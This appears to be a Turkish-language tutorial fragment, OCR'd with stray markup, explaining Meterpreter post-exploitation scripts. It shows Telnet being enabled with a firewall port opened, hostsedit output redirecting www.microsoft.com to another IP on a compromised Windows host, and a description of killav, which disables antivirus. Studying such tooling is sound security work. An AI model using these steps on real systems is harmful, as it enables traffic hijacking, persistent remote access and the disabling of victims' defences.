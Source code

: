 ```bash
**[*********]** Setting Telnet Server Services service startup mode
**[*********]** The Telnet Server Services service is not set to auto, changing it to auto ...
**[*********]** Opening port **in **local firewall **if **necessary
```



## hostsedit



`hostsedit` scripti, Windows hosts dosyasına bilgi girmeye yarar. Bağlanılmak istenen web adreslerinin DNS adresleri için önce bu hosts dosyasına bakılır. Hedef bilgisayarı istenen adrese yönlendirmek için kullanılır. Her satıra bir adres girilmelidir.


```bash
meterpreter **&gt;** run hostsedit 

**[!]** Meterpreter scripts are deprecated. Try post/windows/manage/inject_host.
**[!]** Example: run post/windows/manage/inject_host OPTION**=**value **[**...]
This Meterpreter script is **for **adding entries **in **to the Windows Hosts file.
Since Windows will check first the Hosts file instead of the configured DNS Server
it will assist **in **diverting traffic to the fake entry or entries. Either a single
entry can be provided or a series of entries provided a file with one per line.

OPTIONS:

    -e   Host entry **in **the format of IP,Hostname.
    -h        Help Options.
    -l   Text file with list of entries **in **the format of IP,Hostname. One per line.

Example:


run hostsedit -e 127.0.0.1,google.com

run hostsedit -l /tmp/fakednsentries.txt meterpreter **&gt;** run hostsedit -e 10.211.55.162,www.microsoft.com
 **[*********]** Making Backup of the hosts file.
 **[*********]** Backup loacated **in **C:\WINDOWS\System32\drivers\etc\hosts62497.back
 **[*********]** Adding Record **for **Host <a href="http://www.microsoft.com/">www.microsoft.com</a> with IP 10.211.55.162
 **[*********]** Clearing the DNS Cache
```



## killav



`killav` scripti, sistemde bir servis olarak çalışan Antivirüs programlarını devre dışı bırakmada kullanılır.
